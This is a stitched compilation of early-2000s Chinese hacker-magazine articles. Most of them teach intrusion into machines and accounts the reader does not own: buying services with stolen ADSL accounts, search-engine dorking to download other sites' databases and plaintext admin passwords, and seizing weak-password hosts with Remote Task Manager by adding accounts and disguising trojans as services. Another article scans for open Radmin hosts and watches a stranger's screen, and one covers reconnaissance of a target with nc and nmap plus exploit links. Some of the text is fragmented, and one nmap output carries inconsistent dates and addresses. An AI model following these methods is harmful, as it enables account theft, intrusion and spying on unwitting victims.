| 互联星空代收费 | 通过广东电信的互联星空收费平台，广东电信各地市的宽带用户可以使用自己的ADSL账号购买世纪前线的点数和包月服务，扣除的费用将和当月的ADSL费用一起合单收取；扣费成功后，购买的点数和包月服务将直接充入目前登录的世纪前线账号，用户可以马上观看“高清电影”，“前线剧场”，“前线影院”，“娱乐特搜”等四个收费栏目中的精彩节目。 | 我要购买 |

程发在网上。不过不管是什么网页，最后都要通过下面的网页进程认证登陆，合法用户才可以支付。还有就是互联星空的游戏充值，对于盗号者来说，能“免费”玩游戏何乐而不为呢？

图1 这个登陆窗口看到动画教程的朋友再熟悉不过吧！

我们可以看到，登陆互联星空并没有什么安全认证，仅仅是输入用户、密码和验证码而已，对登陆者的IP并没有做限制。当登陆时，如果提示与分配的IP地址不符，那是因为ADSL用户正在上网，“黑客”要做的并不是将入侵的ADSL机器做为代理，而是等到夜深人静时用户下线了再登陆。

## 二、影视娱乐ADSL

相信大部分上网的朋友都喜欢在网上看电影吧！不出门就可以看到精彩大片，了解各国风情。只是现在免费的东西越来越少，再者真正免费的服务也让人不敢恭维，但花钱在网上注册看电影又觉得不值（很多朋友们都这样想吧）。因此，互联星空提供的便捷网上支付也让喜欢看电影的“黑客”们乐不可支。

登陆互联星空（以广东为例），ADSL用户可以定制多种服务，如星空影院、电视剧场等。如果你的网速不快的话会很卡（广东的一般ADSL网速大约有2600Kp下载速度），你可以试试世纪前线网站提供的影视服务。

世纪前线（www.avl.com.cn）只需在网站上免费注册一个帐户，然后购买服务。看看图2，可以选择“互联星空代收费”，之后就可看到你熟悉的那个登陆网页。

## 三、正版杀毒软件

当然，在游戏娱乐之后，“黑客”也得考虑一下自己机器的安全系数，那就来购买安全服务吧！想不到除了影视可以包月外，安全服务也可以包月。在互联星空上我们点击“安全服务”，可以看到互联星空提供的服务，有包月的也有按次的。天网防火墙、江民杀毒、卡巴斯基、趋势在线，应有尽有啊！当然，也少不了瑞星，我们到下面的网页：http://go.rising.com.cn/index.asp?rskey=B1B8JXCS#1，可以看到图3所示的页面。

看到了吧？瑞星杀毒软件10元包月，可以通过互联星空购买，而且还是自动续费的。

连杀毒软件都可以“免费”用正版，现在“黑客”们就可安安心心地玩游戏、看电影了。我在网上看到有人声称“充了一万个Q币”，不过倒没见到有人被抓（仅仅是冻结了Q币）。我想很多ADSL用户都没有发现无故扣了很多上网费与密码被盗有关吧（包年的用户也可能被盗），等他们反应过来了，估计也应该是没钱上网了。

广东电信ADSL的用户一开通，其在互联星空上的帐户也相应开通，电信在方便用户的同时也方便了“黑客”，让“黑客”有机可乘。希望通过这次“血”的教训让更多的人提高安全意识，电信也要及时做出相应补救。现在广东ADSL的用户被榨得面无血色了，大家可不要再火上加油哦！

## 迟到的原因

某个风和日丽的早晨心情很好，可遇到了心情不愉快的事情。看图1就知道我为什么心情不好了。

图1

明明是hao123.com的域名，却给我打开什么彩信的网。这可不是我想要的啊！刚开始我还以为网址大全hao123.com的站点被黑了，结果同学机器中hao123.com的页面是正常的。看来我的机器是访问了不干净的网站，修改了我机器里的文件。幸亏前几天MCSE讲了域名映射的原理，今天碰到这种情况，正好派到用场了。

## 刻骨铭心

浪子燕青

## 刨根问底

我先用Windows自带的工具ping我同学的机器，ping到的真实地址是：

```
www.hao123.com    61.135.145.201
hao123.com        219.133.39.252
```

而我机器里ping到的地址是：

```
www.hao123.com    219.129.20.148
hao123.com        219.129.20.148
```

那么219.129.20.148这个IP上真正的域名是什么呢？在cmd下输入命令：c:\>ping -a 219.129.20.148，得到的域名是www.7liao.com。

分析如下：我TCP/IP里面的域名服务器可能设置错误，或者是恶意的脚本给我改了？

打开看了一下，TCP/IP里的协议设置是正确的。那么就是恶意脚本修改了Windows的一个文件，而这个文件是存储域名和IP映射的，算是静态的吧，就和路由器里添加静态的路由表一个道理。Windows有个机制，静态的比动态的优先级要高，所以要先找本地存储的静态文件。这个文件是 C:\windows\system32\drivers\etc下名为hosts的文件，没有扩展名，用记事本可以直接打开编辑。我打开后如图2。

我的乖乖，居然这么多，看到我圈住的地方了吧，把hao123.com的域名映射到固定的219.129.20.148这个IP上了。而且还有很多，都把域名做了修改。

我先简单介绍一下hosts。只要是以 “#” 开始的，都是注释，可以不管。接着一行一行的写，前面是IP地址，用空格隔开，右面写对应的域名就可以了。这样，不管真实的域名对应的ip地址是多少，都会映射到hosts文件里的那个对应的IP地址。

找同学机器上的hosts文件，拷贝回来覆盖我的文件就可以了。或者把里面的文件清空也可以，但最好留一个127.0.0.1 localhost（图3），这是Windows默认的，其实不留也没关系。

既然这个219.129.20.148的IP地址这么讨厌，我们干脆封掉好了。它对应的域名是www.7liao.com，我们就在hosts文件里加一行，如下：

```
127.0.0.1 www.7liao.com
```

这样，我们只要访问www.7liao.com这个域名，都会转到127.0.0.1这个IP上，而这个IP是测试回环的，其实就是本地地址。为了再次防止修改，我们把这个文件设为只读属性。好了，修改完毕保存退出。总算可以访问hao123.com了，一切OK！

## 另类搜索魔法

姚伟峰

在2004年第1期的《黑客X档案》上看到iqst用“DataSource=”&Server.MapPath”搜MDB数据库，小弟实在佩服！但我很菜，只能用自己独特的方法搜库啦！

搜索在我的“黑道生涯”中扮演着巨大的作用，以前我常用google，但现在我用教育网后就改为了百度（教育网用户要用代理才能上google）。

百度在国内也算出名（用www.baidu.com 和www.baidu.com.cn都能访问到），所以无论是IE5还是IE6，都可以用Ctrl+Enter快速输入地址。

OK，下面就介绍我的搜库大法！

大家都知道，现在很多网站都采用了现成的系统。这些系统好处很多：方便、全面而且便于管理，受到了广大站长的青睐（me too^_^）。但不知是懒还是菜，好多站长都是纯粹的“拿来主义”，下载一套系统后只改了图片和版权就发布到网上了，其他构造一点都没变！这就给我等小菜提供了一个练手的机会。

首先，找了个ASP整站系统（例如X光盘2003年第12期提供过异域设计全站代码），其默认数据库为data/admin.mdb，管理入口为admin.asp。下面就以这个文件名搜索一下网上的数据库，结果很不理想，如图1。

于是就想到用其他关键词搜索（直接搜索不行，咱就拐弯抹角搜）。打开管理入口看了一下，发现“管理员密码 & 管理员组管理”挺特别的。好，就用这个KEY WORDS吧！这下命中率就大大提高了（图2）。

看了一下，应该都是管理入口了。好，随便选一个进去瞧瞧，挺熟悉的界面。呵呵！把网址后面改成数据库的地址，看看路径和文件名变了没有？哦！居然出现下载提示（图3）！

呵呵，一个数据库到手了，最关键的是，这套全站系统的数据库没有经过任何加密，管理员名字和密码都是明文记录着的（图4）。

再来看看其他网站？好多站点的数据库都可以下载到，cool（哎，这些admin太lazy了！Professional一点好不好嘛）！

下面我们来看看其他的全站系统。去搜索一下“asp 网站系统”，在一个下载站点找到了一个音乐网站源代码。下载后打开，发现其默认数据库是 xajhl.mdb，管理界面是 admin/index.asp。接下来要做的就是找它含有的特殊信息了，先用其版权信息“COM 音乐网 CopyRight 2002 年”搜了一下，太杂了，这样可不行，我这个大忙人可不能浪费时间一个个去过滤吧！

图4

图5

继续找特殊字符，在 bottom.asp 中发现这样几个字：“版权所有 欢迎盗版 违者不究”。呵呵！这个比较有创意，就拿它作 key words 了。搜一下看看（图5），Great！一大批这样的站点出来了。随便进一个，打入数据库路径和文件名，又没改，如图6。多么熟悉的下 载提示！

图6

接下来就“一切尽在我掌握中，越来越接近管理员，我今天的心情是大不同啊大不同”！
其实，我的思路很简单。找个较通用的系统，根据其默认的路径去搜索下载数据库。虽然在《黑客X档案》上看到大侠们施展各种暴库方法得到数据库，但对于我们这些菜鸟来说，利用搜索引擎找数据库还是比较方便快捷的。
大家可举一反三，网上很多文章系统、留言本都有这样的漏洞。非常感谢这些网站给菜鸟们提供入门的练手机会！
这就是我的另类搜库法，So Cool 吧？纯菜鸟创作，不含防腐剂哦！最后提醒各位看官，不要拿此方法去搞破坏哦！也在此提醒一下网站的站长们，数据库路径和文件名一定要改，拿%来主义也要安全第一嘛！

## 风魂代码

## Remote Task Manager

侯成岗

图1

大家在扫描到一台弱口令的主机之后，为了把这台主机发展成自己的肉鸡，可能会做非常多的工作：上传后门工具、添加管理员帐号、定制服务、安装后门等。这些操作比较烦琐，而且没有任何新意，相信很多朋友都熟悉。所以，我们最好将这些操作步骤加以简化，以节省时间！
Remote Task Manager 能完全解决我们遇到的这个麻烦，它几乎将入侵一台主机所做的全部必要操作都包含在内，使用起来非常方便。感兴趣了吗？一起来看看 Remote Task Manager 到底是何方神圣！

## 本地使用

进行一路回车的安装之后，打开 Re-mote Task Manager，哇！看起来很复杂的样子，上面密密麻麻罗列了很多项目，别怕！仔细看看，就能清楚这些项目的含义。
在初次打开没有进行设置的情况下，Remote Task Manager 是个显示本地主机资源、进程、日志等情况的百宝箱（图1）。

工具栏中包含了以下几个项目：A p -plications（当前系统运行的程序列表）、Processes（当前系统中的进程列表）、Ser-vices（当前系统对外开放的服务）、Devices（各种驱动程序）、Events（日志）、Perfor-mance（系统稳定情况）、Shares（共享情况）、Networking（网络传输情况）、Hardware（硬件情况）。相当丰富，比系统自带的任务管理器要好得多，可以在上面查看系统当前的一些重要情况，要知道，这其中的很多查看操作本来是在命令行下进行的，现在搬到图形界面中了，高兴吧！
当然，我在这里不是展示它的本地功能，而是想使用它的远程管理目标主机功能，当这个工具和目标主机连接成功时，就能与本地一样详细显示目标主机的任务、进程等，用这个功能来管理命令行肉鸡是再爽不过的了。

## 远程使用

### 步骤1

打开 Remote Task Manager，点击工具栏中的“file”选项，选择“connect”，打开连接设置面板，在“computer name”中填写要连接目标主机的IP 或计算机名，注意填写IP 地址时必须按照这样的格式：\\IP 地址（图 2）。

然后点击下方的“connect”按钮进行连接，提示输入目标主机的管理员帐号（图3），输入扫描得到的弱口令帐号 IUSR_IIS 和密码 123，输入后进入下一步。

如果连接成功，工具又出现提示：RTM server does not exist on \\61.234.*.*, Do you want to install it? 这个提示的含义是未曾发现目标主机上存在 RTM 服务，是否要安装它，当然要安装了，只有安装了这个服务，我们才能远程操作目标主机。
它会提示我们选择安装的 RTM 服务程序，这个程序可在工具的安装目录下找到，是 rtmserver vice.exe。确认安装程序完毕后，工具的蓝色滚动条开始工作……即将完成（图4）！

终于安装完成了，这时工具标题栏上的标题就会变成：connect to 61.234.*.* as ZL-19EEF\IUSR_IIS。其中，“ZL-19EEF”是目标主机的计算机名，“IUSR_IIS”就是以这个帐号的身份连接的。现在，你就可像在本地一样远程管理目标主机了。

### 步骤2

先看看工具中的“Applications”（当前系统运行的程序列表）标签，这里面详细显示了目标主机的当前任务，看着不爽的话，可以自己加点东西。点击下面的“New task”（新任务），在出现面板中的“Command line”一栏可以输入 DOS 命令，试着加个帐号：
net user glx 123 /add
点“Execute”执行（图5）。这样就可成功添加一个名为glx、密码为123的用户。这只是功能的一小部分，你可利用这个来运行权限允许下的任何命令，这就给在主机上要做的事情打下了基础！

### 步骤3

再查看“Processes”（当前系统中的进程列表）标签，这里显示的是系统当前的进程，相当于一个进程管理器。还好，这个主机的进程中没什么危险的东东，该功能非常强大，还可查看一个进程的子进程，这就是Win2000中进程树概念了，好笨啊！太难了！稍微看看，随便选一个进程：winlogo.exe，看看它的子进程都有啥（图6）。HOHO！非常多的进程啊！这好像对菜鸟们没多大用处，算了，不看了！

### 步骤4

再查看“Services”（当前系统对外开放的服务）标签，这里显示的是系统当前对外开放的服务，详细显示了其服务的名称、状态和对应的程序。可以对这些服务进行启动、停止、删除、编辑。
这其中最有用的莫过于“Creater New”——建立新的任务功能。它能给任意一个程序建立成为服务，可以给这个服务命名，加以描述等。
有这样一个简单的思路：先给目标主机上传一个后门程序，然后再利用Remote Task Manager将这个后门程序注册为一个名称极具迷惑性的服务，这样就达到了隐藏后门的目的。
嘿嘿！将思路转化为现实吧！我利用Tftp上传了一个名为ntserver.exe的木马，放在了目标主机的c:\winnt\下，这下可利用Remote Task Manager将它注册为服务隐藏起来。

点“Creat New”按钮，出现设置面板，在“Server Name”中填写这个即将增加的服务名字，最好具有迷惑性，就叫ntservice吧；“Display Name”中仍然填写ntservice；“Path to executable”中填写服务对应的程序路径，当然是刚才上传的木马ntservice.exe的路径了；在“Description”中填写关于这个服务的描述：系统进程管理服务（图7）。其余的选项（例如：启动方式等）保持默认，最后点击“OK”来生成这个服务。哈哈！看看列表中多个名为ntservice的服务，很容易把主机管理员唬住啊！

## 三、后门扩展

在这个简单思路的基础上，我发扬了再创三个辉煌的思想，实践出了一种新的方法，绝对能更加的隐藏后门。
这个方法的思路是：将一个已经存在于主机的正常服务进行修改，将其对应的应用程序改为后门程序，从而达到隐藏。
看看怎么做吧！先选中任一个目标主机上的服务项，这里最好选择平时那些很不容易引起管理员注意的服务（例如：Messenger服务）。双击打开这个服务项进行编辑，将“Path to executable”这一项中messenger服务对应的应用程序改为上传的木马后门的名字的，其余选项不要动。点击“OK”退出，然后再启动这个服务。这样就诞生了一个名为messenger服务的后门，这个方法比上种方法好多了，肯定不会是被发现的，除非对方的杀毒软件够厉害，将这个后门程序查杀了。

这个工具还有个“Share”标签，它用


# 傻瓜黑客

来显示目标主机开放的共享资源。晕来了，这个主机对外开放了非常多的共享资源（图8），想单独再开一些共享资源的话，点下面的“Creat New”按钮即可进行共享资源的设置。

在设置面板的“Share Name”中填写即将开启的共享资源名称，来个搞笑的：X hack fans，有创意吧！保证对方管理员看见了吐血身亡；“Path”中填写要开启的共享目录名，看看刚才的那个共享列表，都开放了怎么能没有\winnt\system32呢？来个一家大团圆吧，输入：c：\winnt\system32$；别的选项保持默认。

这样就开启了一个名为X hack fans、目录为c:\winnt\system32$的共享。

工具中还有一些别的标签（如Devices（各种驱动程序）、Events（日志）等），大家有时间都可以做些研究，这里就不细细讲解了，如果再讲解下去，小编非把我撵下台去！

天涯若比邻，海内存肉鸡！

（本文的软件Remote Task Manager光盘中有收录）


# 肉鸡自动上线

xiao xin

你是菜鸟吗？你的肉鸡能自动上线吗？如果你回答“是”和“不能”，那么就请看下去吧！其实，自动上线可用灰鸽子等反弹木马，但有很多条件限制。比如，要一台公网肉鸡，要会绑定端口等，这对我们等刚入门的小菜来说有点复杂，并且我是在网吧“工作”，用反弹木马很麻烦，所以就有了下文……

得怎么样了！什么？一堆4899？嗯！找一个进去试试！对了，先说一下工具。我用的是Radmin Viewer 3.0，其界面如图2。

## 找肉鸡

这次我就找几个4899肉鸡来做实验。首先拿出我常用的端口扫描工具——Port Ready，其界面如图1。


图1

首先在“起始”和“停止”中分别添入一段IP（如xxx.xxx.0.0--xxx.xxx.254.254），然后在端口列表中写入4899，再点“扫描”就行。这时你就可先和朋友聊天了！

这时机器运行速度会变慢，如果你的电脑或网络慢，就不要干别的事了，否则会死机。


图2

先点击左上角的闪电按钮⚡进入图3所示的界面，在“IP adress or DNS name”中填入刚扫描到的IP，点“OK”就行了！


图3

啊！进去后我就看到对方的屏幕了（很幸运对方没有设密码），那个mm正用QQ聊天呢！其实，我们看到对方屏幕只是一种完全控制的默认方式，还可以telnet，其他功能图4所示。

进入后当然要加强你的肉鸡，以防别人用同样的方法进入你的肉鸡。好了，给他设个密码吧！用Radmin Viewer 3.0的telnet功能进入对方的命令窗口(Win98没有


图4

该功能，可通过完全控制进入其DOS窗口操作！不过很危险，容易被发现），进入后，在C:\winnt\system32目录下一有Radmin Viewer的服务端（Win98不是很清楚，但可通过查找“r_server”的方法找到其相应目录），然后用命令r_server /pass:密码 /si-lence /save给其加密！

这样别人用相同办法进入的话，就需要你刚设置的密码了！

## 解决问题

好了，这台4899肉鸡就是你的了！可要是肉鸡的IP不固定怎么办？他什么时候上线还不知道呢！

哈，到了关键的一步了！刚刚不是那个mm在聊天吗？你为什么不加她呢？看看加后有什么效果，因为我用的QQ是木子版显IP的，所以……这样就不用怕她的IP不固定了。在聊天对话框中有她的IP，只要她一上线，就自动告诉你她的IP了。最重要的是，这样不会被杀毒软件查杀。呵呵！这岂不是一举两得？而且比那些反弹木马简单容易（当然，这样也有一定的局限性，这里只提供思路，你可以移植到其他方面。高手说：你这算什么？准备鸡蛋洋葱！扔他……）！

## 再说几句

进入对方系统后，要帮她维护一下！可千万别干坏事！笔者也是菜鸟，文章有什么不对的地方还请多指教！

（本文用到的如下软件光盘中有收录：Dotpot Port Ready、Radmin Viewer 3.0）

QQ上的朋友下线了，然后就看看扫描

## 进入并巩固肉鸡

黑客文摘2003 2004年合订本(下卷)

# 傻瓜黑客

金山网镖6是金山公司出品的网络安全产品，它能根据个人上网的不同而设定安全级别，有效的提供网络流量监控，并可对黑客、木马攻击进行监测，为个人用户提供全方位的网络安全保护。除此之外，金山网镖还有其他妙用，比如说它可帮我们去去除QQ中的广告！去掉QQ广告的方法有很多，但恐怕很少有人利用金山网镖来去除它。下面笔者就谈谈如何用金山网镖去除QQ广告。

## 方法一：利用应用程序规则拦截QQ广告

金山网镖6增加了对应用程序底层数据包进行分析拦截的功能，它可控制应用程序发送和接收数据包的类型、通讯端口，并且决定拦截还是通过，在启动金山网镖6的情况下，任何应用程序只要有通讯数据包发送和接收存在，都会先被金山网镖6首先截获分析。充分利用该功能，可以帮我们拦截QQ广告，使广告不被下载到我们的电脑中。


具体方法是：双击任务栏中的金山网镖6图标，打开金山网镖6的主界面，单击“应用规则”（图1）。


点击“添加”按钮，打开“添加应用程序权限”窗口，在该窗口中找到QQ安装目录下的QQexternal.exe文件（图2），单击“打开”按钮会自动返回到金山网镖6的“应用规则”窗口中。

在这里我们可以看到曾经提出过访问网络请求的应用程序的名称、开始运行时间、大小及安装路径等详细信息。

在该窗口中，拖动右边的滚动条在QQ.exe的下方，找到名为“AD”的选项（图3），用鼠标选中它，然后单击“禁止”，以禁止该程序访问网络即可。最后把QQ安装目录下的AD子目录中的所有文件都删除，再删除dat子目录中的ad.gif文件，以后再使用QQ聊天时就不会再有广告来烦你了。

## 方法二：利用IP规则编辑器拦截QQ广告

利用金山网镖6提供的IP规则编辑器可自由的添加、修改、删除IP规则，并且可用来去除QQ广告。方法如下：打开金山网镖6的主界面，单击“工具”按钮，在弹出的下拉菜单中单击“IP规则编辑器”（图4），弹出“自定义IP规则编辑器”窗口，如图5所示。


单击“添加”按钮，在弹出的“添加IP数据包过滤规则”窗口中可设定规则名称、规则描述、对方的IP地址、数据传输方向、数据协议类型、本地端口、对方端口以及满足上述条件时的动作，如图6所示。


我们在“规则名称”栏中填入：禁止QQ广告；在“规则描述”栏中输入任意说明文字即可；在“对方的IP地址”中选择“指定IP地址范围”，“从地址：”中填入：


61.172.249.133，“到地址：”中填入：61.172.249.135；“数据传输方向”选择“接收数据”；“数据协议类型”选择“UDP 类型数据包”（因为 QQ 使用 UDP 协议）；剩下的选项都不用改，默认即可。

最后单击“确认”按钮返回到“自定义 IP 规则编辑器”窗口，可以看到我们在这里新增加了一条规则（图 7），单击“保存”按钮即可。

用同样的方法，再添加两条 IP 规则，除了指定的 IP 地址范围不一样外，其他选项都一样。我们要添加的 IP 地址范围分别是：219.133.40.152～219.133.40.157，218.17.217.105～218.17.217.106。这些 IP 地址传来的数据报文就是 QQ 广告的内容，所以我们禁止它们连接我们的电脑，这样就可拦截 QQ 广告。

最后，在 QQ 的安装目录下找到 QQexternal.exe 文件，把它改名为 QQexternal.exe，并把 QQ 安装目录下 AD 子目录中所有的*.gif 和*.swf 文件删除，再删除 dat 子目录中的 ad.gif 文件，这样就彻底切断了 QQ 广告之源。


# 较高安全级别主机的渗透

此文写给桂林电子工业学院王小明同学

这是《较高安全级别主机的渗透》系列文章中的第一篇，有空我会继续往下写。对一台主机的渗透我把他划分了：序幕、渗透、尾声三个阶段。顾名思义，序幕就是入侵前的信息刺探。信息刺探如何做到全面和精细，是很有重要意义的，特别是对后面的渗透起着关键的辅助作用。

很多朋友，甚至包括有些踏入黑界有一段时间的朋友，都以为信息刺探并不重要。想黑什么主机，抓起工具找一个 IP 段一阵狂扫，然后发现溢出漏洞——入侵。汗！真的让你渗透的时候有那么容易么？我们不是渗透“漏洞”，而是渗透“主机”。成段的扫描某个漏洞，然后谁有洞进谁，等真和你有仇的人来了，你还能扫一段么？简直是错误思想！冰血封情技术其实不怎么样，和 13K、Sagi……他们没法儿比，但是经验还是有那么一点点的，就分享一下吧。

今天我们就用一台网络 php 主机为例来说明一下网络安全中“踩点”的重要性以及怎么样踩点（小偷的说），咱们选的主机不见得多安全，但我在这里强调的是授人与渔。其实踩点往往是最容易忽略的网络渗透的第一步。如果第一步走好，将会为后面的安全检测或者是入侵渗透提供良好的理论指引。

在很多人眼里 unix+php 是比较安全的。那么我们怎么样为了进入一台 php 主机而搜集前期信息呢？

## 一、信息搜集过程

### 1.知道地址

```
ping www.target.com
Pinging www.target.com [***.***.***.***] with 32 bytes of data:
Request timed out.
Ping statistics for ***.***.***.***:
    &nbsp; &nbsp;Packets: Sent = 4,
    Received = 0, Lost = 4 (100% loss),
Request timed out.
```

这种情况意味着什么？

- 1. 对方主机真的不在线，所以没办法回应。
- 2. 对方主机安装了防火墙，屏蔽了 ICMP 报文，不反馈 echo 数据包。
- 3. 对方在注册表中进行了安全设置，不回复 ICMP 报文。
- 4. 对方在 IPsec 中拒绝了 ping。

### 2.查询地址

ip.hackway.net 可以在线查 ip 地址。我们来查下（图 1）。


您的查询结果是：广东省东莞市, 相关 IP 段信息：***.***.***.***
广东省 广州市

现在我们可以知道站点的服务器放在广州（废话）。很多人觉得查询地址并不重要，这点我就不认同，对一个比较重视安全的主机的渗透，是很有必要知道他的地址的，如果处在大城市或者是省会，那么本身的站点的空间商就有可能是后台的，那么渗透中就要把握尺度，避免一失足成千古恨。

当然不排除本身这个老板也是把主机放在 N 远的地方托管的人。但是多少对我搜集后期信息会有帮助的。帮助体现在哪？后面我会告诉你的。

### 3.浏览器刺探


我们在 IE 中直接输入 http://ip，弹出

# 傻瓜黑客

phpMyAdmin running on localhost-1002的密码输入登录框（图2）。
取消后页面无法访问，提示：Welcome to phpMyAdmin 2.5.0-rc2 Wrong username/password. Access denied.(图3)。


从浏览站点的页面发现站长是北京的，而ip在广州，基本可以断定是托管空间。这里我们记下一个信息就是：phpMyAdmin 2.5.0-rc2。什么什么？说没看见，要是我徒弟我就给你一晕？一闪而过的信息都要用很敏锐的眼光抓住并且记录下来。其实第一遍搜集资料的时候我也没注意到这个信息(注意我不是只踩一次点的)，事实证明我忽略了一个重要的信息，后面就知道了。

### 4.开始进一步刺探主机信息

telnet ***.***.***.*** 80回车。在没回显的情况下输入get得到的结果乱七八糟（图4）。


好象有点敏感资料，但是看的不是很清楚。哈哈，再来，拿出事先准备好的nc（不认识？我不会给你解释的），如图5所示：

```
nc -vv ***.***.***.*** 80
ip: inverse host lookup failed: h_errno 11004: NO_DATA
(UNKNOWN) [ip] 80 (http) open
get
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<HTML><HEAD>
<TITLE>501 Method Not Implemented</TITLE>
</HEAD><BODY>
<H1>Method Not Implemented</H1>
get to / not supported.<P>
Invalid method in request get<P>
<HR>
<ADDRESS>Apache/1.3.29 Server at xxx.xxx.net Port 80</ADDRESS>
</BODY></HTML>
```

看见上面了么，知道NC的威力了吧，

我来总结一下这里得到的几个信息。暴露了Apache/1.3.29这个敏感信息，很轻松确定了对方的系统基本是Unix类的主机。


这个先不着急，但是记住了Apache/1.3.29这个信息(让你记住的都要记住，后面要总结的)。现在看看这个xxx.xxx.net是个什么东西(当然不叫xxx拉，我修改拉)。输入看看？原来是空间商的服务主页转向到了www.xxxx.cn。没劲，暂时不管。
旁白：Gener[S.A.T]在一旁凶神恶煞的说：还用扫描器！不急，不急！用扫描器的时候还早哩。推断：既然是托管？嘿，那就应该是个主机，至少提供ftp啥的。再来探测ftp(图6)。


```
nc -vv ***.***.***.*** 21
220 ProFTPD 1.2.9rc1 Server (ProFTPD Default Installation) [bj1.xxxx.cn]
```

看看这些信息吧！ProFTPD 1.2.9rc1也要记下来。bj1.xxxx.cn原来是和www.xxxx.cn一样的页面。估计是不同的主机，那就不是我们这次的对象，不管了。

### 5.转向页面信息的搜索

也许有人觉得没必要？呵……错了，后面会说为什么那么必要。
先去空间商的服务页看看。发现没？目前我们都还没提到过要黑的那个www.target.com站。这叫发散性信息搜索，就是从周边尽可能的外围搜集主机的情报。可是我独创的词哦(真是欠扁哪……)。
浏览了一下空间商提供服务的web中的bbs。服务商的论坛上竟然还有几个黑道兄弟在发帖？还有我认识的。看来这个商人还知道养几个Hacker来撑门面啊？这里我们分析出来了一个问题：主机安全管理员可能是比较精细的一个人，至少我如果能进入必须要在日志上多做功夫。避免被追查。
现在终于可以看看那个目标www.target.com，论坛用的是Discuz!3.1。看来不是那么简单的问题？ Discuz口碑不错，但是现在看来却不那么好，刚暴露漏洞，但是论坛的模板都怎么看怎么怪。看来要社会工程学了。
注册该站点，看见一个mm。泡她(007的惯用招)。她说那个站是假冒Discuz！3.1的标识的，因为商业版本没免费的云云。想起侏儒妹也说过，@#%^&*其实我也没听明白。其实这个站也不大，就是一个论坛，两个美工的版本，姑且算它是2.0的免费版。回头如果不对再推翻这个假设。

> 注意：
在给一些大站踩点的时候他们用的都是自己的服务器，比如：浩方我玩过(别误会，游戏我可一窍不通)。我都会把他的版权信息、站点地图、公司的联系方式、友情连接……这些在页角上最不容易被发现的重要的信息都看一遍，并做好记录。为什么看这里呢？我们通过一个站点的友情连接就能知道他的站点后台合作伙伴，比如浩方的友情连接里就有上海电信，不用想就是上海的主机最可能了，而且和电信关系非常密切。因为我们做任何事情每一步都要慎重，更何况是渗透一些性质特殊的网络主机，国内国外都一样。大凡企图渗透大型安全性高的站点、中等以上的商业站点、国外政府机关站点、电信机关的站点、国内的顶级安全公司等，如果一失足就进去坐牢了。当然授权安全检测另当别论。

### 6.现在非扫描性主机信息刺探就告一段落了

终于开始使用扫描软件做全方位的扫描。看见没？现在才用扫描器，那些不用大脑上来就扫的人哪……我汗。
工具SuperScan3(用4.0版？不。只是想要端口扫描而已，3.0就够了。)、X-Scan2.3(这小子真落后！再汗，我这可不是普通的2.3啊。想要？问土豆要。)
首先用SuperScan3全部扫完1-65535端口。扫描信息如下：

```
+ ***.***.***.***
|__ &nbsp; &nbsp;21 &nbsp; File Transfer Protocol [Control]
&nbsp;|___ 220 ProFTPD 1.2.9rc1 Server (ProFTPD Default Installation) [bj1.xxxx.cn].
|__ &nbsp; &nbsp;22 &nbsp; SSH Remote Login Protocol
```


```
nmap -sS -p 1-65535 -T4 -O 192.168.1.100
Starting Nmap 4.20 ( http://insecure.org ) at 2004-05-17 14:20 CST
Interesting ports on 192.168.1.100:
(The 65532 ports scanned but not shown below are in state: closed)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.2.9rc1
22/tcp   open  ssh         OpenSSH 3.5p1 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.29 ((Unix) PHP/4.3.2)
3306/tcp open  mysql       MySQL 3.23.58
MAC Address: 00:0C:29:25:25:25 (VMware)
Device type: general purpose
Running: Linux 2.4.X|2.5.X|2.6.X
OS details: Linux 2.4.20 - 2.6.7
Uptime 8.219 days (since Sun May 09 09:04:03 2004)
Nmap finished: 1 IP address (1 host up) scanned in 25.625 seconds

```

从这里看，安全级别好像很高。立刻就下结论么？不，什么问题都不要过早定论，我们现在只是搜集信息，还没有收到漏洞和相关资料的阶段呢。X-Scan2.3 上，扫描模块要针对 unix 进行修改(知道前期侦察有用了吧)，不要 route 信息(还记得前面让你找地址是广州的么？大脑里要有张中国的 DNS 图，记忆不下来自己再去多找来看看)，不要 port 刺探(刚用 Superscan3 扫过，时间是很宝贵的)。关于扫描器的配置不在我们所谈的话题内，自己研究去，开扫……一会儿结果出来了，是无任何结果。真的，就是无任何结果(别以为我没选择无条件扫描)，呵……很有意思的，感觉到挑战了哦。现在信息搜集部分我们基本完成了。xscan 竟然没帮上忙，心里很不舒服。那么现在我们需要总结一下搜集到的信息了(前面我叫大家记下的)：

- (1) Apache/1.3.29
- (2) ProFTPD 1.2.9rc1
- (3) Discuz!
- (4) SSH-1.99-OpenSSH_3.5p1
- (5) phpMyAdmin 2.5.0-rc2

看看吧，这么少的端口的主机，竟然暴露了 5 条关键信息(什么什么，太少？大哥这已经很多了。你以为是黑蜂窝煤哪，全是眼儿？)，现在您应该问问自己是否有象我这样搜索一个站点的信息，这就是整个过程最关键的，后面搜索资料谁都会。当然这么慎重对一个站点进行分析，前提是比较敏感的站点，这里我已经再一强调了。现在我们进入下一个环节。

## 二、资料搜索过程

我们使用一些很棒的搜索站点进行资料搜索。第一个就是传说中的世界搜索大王 www.google.com，第二个就是我比较喜欢用来搜索国外资料的站点 www.alltheweb.com (不知道为什么突然访问不了了)，第三个是安全飞人 SQL 大哥推荐的国外安全站点 www.security.com (真的很棒)。

我们在这些站点里，都以以上的总结信息文字 + “漏洞” 两个字搜索资料，然后变换关键字长度。比如我要搜索 phpMyAdmin 2.5.0-rc2 的漏洞：那么我首先输入 “phpMyAdmin2.5.0-rc2 漏洞” 搜索到一部分，但是实在太少了。这样我们得减小搜索关键词，修改成 “phpMyAdmin 漏洞” 搜索到很多很多的资料，然后人工选择我们需要的版本。这样来来回回几次，我们得到了海量般的漏洞资料、报告、攻击代码和攻击程序。可见这 5 条信息带给我们的已经是等比数列般增长的信息了。

下面我把收集到的信息举例(作者收集的全部资料已经收录在光盘了)：

## 收集到的部分信息

1. 80 端口上 Apache/1.3.29 存在 Remote Root 安全问题 Exploits：http://www.eviltoal.com/forum/show.asp?id=225&bd=30&totable=1

2. 21 端口上 ProFTPD 1.2.9rc1 存在 Remote Root 安全问题 Exploits：http://www.eviltoal.com/forum/show.asp?id=226&bd=30&totable=1

3. Discuz 存在跨站、Cookies、消息未限等安全问题 Exploits(说最新的)：http://bbs.gliet.edu.cn/bbs/index.php?showtopic=22550

